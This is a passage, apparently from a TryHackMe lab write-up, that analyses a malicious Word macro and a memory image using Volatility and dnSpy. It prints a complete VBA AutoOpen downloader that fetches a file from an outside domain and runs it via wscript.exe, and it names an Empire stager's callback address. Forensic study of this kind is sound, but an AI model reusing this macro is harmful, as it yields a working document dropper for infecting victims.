 ```bash
   16:      4096 'WordDocument'
```

The macro downloads a file (`update.png`) and saves it as `update.js`, then executes it via `wscript.exe`:
```vb
Attribute VB_Name = "NewMacros"
Sub AutoOpen()
spath = "C:\ProgramData\"
Dim xHttp: Set xHttp = CreateObject("Microsoft.XMLHTTP")
Dim bStrm: Set bStrm = CreateObject("Adodb.Stream")
xHttp.Open "GET", "https://files.boogeymanisback.lol/aa2a9c53cbb80416d3b47d85538d9971/update.png", False
xHttp.Send
With bStrm
    .Type = 1
    .Open
    .write xHttp.responseBody
    .savetofile spath & "\update.js", 2
End With
Set shell_object = CreateObject("WScript.Shell")
shell_object.Exec ("wscript.exe C:\ProgramData\update.js")
End Sub
```

---

### Memory Analysis

#### Identifying Processes
Using Volatility to identify suspicious processes:
```bash
$ python2 vol.py -f $THM/Boogeyman2/WKSTN-2961.raw --profile=Win10x64_18362 pstree | grep -C2 -i wscript
  .... 0xffffe58f81150080:WINWORD.EXE                  1124   1440     18      0 2023-08-21 14:12:31 UTC+0000
  ..... 0xffffe58f864ca0c0:wscript.exe                 4260   1124      6      0 2023-08-21 14:12:47 UTC+0000
  ...... 0xffffe58f87ac0080:updater.exe                6216   4260     18      0 2023-08-21 14:12:48 UTC+0000
```

#### Extracting `updater.exe`
Dumping `updater.exe` from memory:
```bash
$ python2 vol.py -f $THM/Boogeyman2/WKSTN-2961.raw --profile=Win10x64_18362 procdump -D $THM/Boogeyman2/volatility -p 6216
$ file executable.6216.exe
  executable.6216.exe: PE32+ executable (GUI) Intel 80386 Mono/.Net assembly, for MS Windows
```

Decompiling with `dnSpy` reveals that `updater.exe` is an Empire stager compiled via Sharpire and calls back to `128.199.95.189:8080`.

---